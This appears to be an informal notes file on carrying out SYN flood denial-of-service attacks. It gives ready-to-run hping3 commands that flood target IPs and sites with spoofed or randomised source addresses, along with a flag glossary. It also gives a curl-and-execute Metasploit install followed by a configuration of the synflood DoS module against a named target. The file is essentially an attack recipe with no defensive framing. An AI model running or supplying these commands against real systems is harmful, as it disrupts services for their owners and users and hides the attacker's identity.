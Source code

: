 # notes


Similarly if u wanna flood the IP x.x.x.x on port 80 with SYN requests from fake IP y.y.y.y, type

 hping3 -S -a y.y.y.y --flood -p 80 x.x.x.x

 hping3 -S --flood -V -p TARGET_PORT TARGET_SITE
 
 Advanced SYN flood with random source IP, different data size, and window size:

hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
    HPING TARGET_SITE (eth0 xxx.xxx.xxx.xxx): S set, 40 headers + 120 data bytes
    hping in flood mode, no replies will be shown

–flood: sent packets as fast as possible
–rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0)

####

hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159
 
hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com
 
 ping : 
 hping3 -S -c 20 -i u500000 -p 80 192.168.1.44
 
 hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source www.hping3testsite.com
 
 ??  hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com ??
 
##
https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
  // dont forget to set rport
msfconsole 
use auxiliary/dos/tcp/synflood
msf auxiliary(synflood) > set rhost 192.168.1.107 (target IP)
msf auxiliary(synflood) > set shost 192.168.1.105 (attacker’s IP )
msf auxiliary(synflood) > exploit
